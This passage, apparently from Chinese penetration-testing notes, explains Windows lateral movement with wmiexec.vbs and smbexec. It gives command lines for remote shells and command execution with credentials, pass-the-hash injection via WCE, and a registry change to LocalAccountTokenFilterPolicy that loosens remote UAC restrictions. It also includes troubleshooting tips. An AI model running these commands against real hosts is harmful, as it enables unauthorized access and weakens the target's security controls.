 ps:  
如果出现User credentials cannot be used for local connections,应该是调用了calc.exe权限不够的问题  
如果出现Description = 无法启动服务，原因可能是已被禁用或与其相关联的设备没有启动，判断WMI服务被禁用  

####wmiexec.vbs  
```
1、半交互模式
cscript.exe //nologo wmiexec.vbs /shell ip username password
2、单命令执行
cscript.exe wmiexec.vbs /cmd ip username password "command"
3、wce_hash注入
如果抓取的LM hash是AAD3开头的，或者是No Password之类的，就用32个0代替LM hash
wce -s hash
cscript.exe //nologo wmiexec.vbs /shell ip
```
![](/sourcepictures/2017/11/06/6/3.jpg)  
wmi只是创建进程,没办法去判断一个进程是否执行完成(比如ping),这样就导致wmi.dll删除不成,下一次又是被占用,这时候修改一下vbs里面的名字就好：`Const FileName = "wmi1.dll"`,也可以加入`-persist`参数(后台运行)

另外有一个uac问题  
**非域用户**登陆到win08和2012中,只有administrator可以登陆成功,其他管理员账号会出现WMIEXEC ERROR: Access is denied
需要在win08或者2012上面执行,然后才可以连接:  
```
cmd /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```
![](/sourcepictures/2017/11/06/6/4.jpg)

想更详细了解的可以看看：https://www.91ri.org/12908.html

####smbexec  
这个可以根据其他共享(c$、ipc$)来获取一个cmd  
```
先把execserver.exe复制到目标的windows目录下,然后本机执行
test.exe ip user pass command sharename
```